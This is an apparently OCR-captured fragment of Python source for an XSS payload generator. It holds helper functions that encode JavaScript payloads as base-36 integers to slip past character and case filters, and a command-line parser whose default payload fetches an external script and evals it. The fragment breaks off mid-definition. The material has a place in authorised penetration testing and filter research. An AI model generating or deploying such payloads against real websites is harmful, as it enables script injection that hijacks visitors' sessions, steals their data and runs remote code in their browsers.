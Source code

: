 ```python

def split_to_len_simple(payload, count=None):
    if count is None:
        count=len(payload)
    return filter(None,re.findall('(.{,%u})' % count, payload))

def str_to_dec(payload, max_int):
    '''
    Returns a tuple: num, todo, removed
      num["toString"](36) gives a string from the beginning of payload
            until removed+todo; if there was an usupported character
            at the beginning num will be -1
      if we stopped becuase of unsupported characters, removed
      contains all such characters
      todo is the rest of the string after initial unsupported
            characters are removed
    '''
    
    supp_chars = string.lowercase+string.digits
    num = 0
    if payload[0] not in supp_chars:
        num = -1
    pos = 0
    err = False
    for c in payload:
        if c not in supp_chars:
            err = True
            break
        
        new_num = num*36 + (ord(c)-87 if c in string.lowercase else int(c))
        
        logger.debug('pos=%u, num=%u' % (pos,new_num))
        if new_num > max_int:
            logger.debug(
                'JS integer would overflow, ' +
                'string truncated to "%s"' % payload[0:pos])
            break
        
        pos = pos + 1
        num = new_num
    
    left = payload[pos:]
    todo = left.lstrip(left.translate(None, supp_chars))
    removed = left.replace(todo,'')
    
    return num, todo, removed


if __name__ == "__main__":
    logger = logging.getLogger('XSS Payloads')
    log_handler = logging.StreamHandler()
    log_handler.setFormatter(ColorFormatter('%(levelname)s: %(message)s'))
    logger.addHandler(log_handler)
    
    parser = argparse.ArgumentParser(
        formatter_class=argparse.ArgumentDefaultsHelpFormatter,
        argument_default=argparse.SUPPRESS,
        description='''XSS payloads for edge cases (limited number of
        characters, capitalised payloads, more to come...). Default
        payload fetches and external script. Arbitrary payloads are
        supported.''')
    parser.add_argument('-p', '--payload', dest='payload',
        default="fetch('%%SCRIPT%%').then(r=>r.text().then(eval)))",
```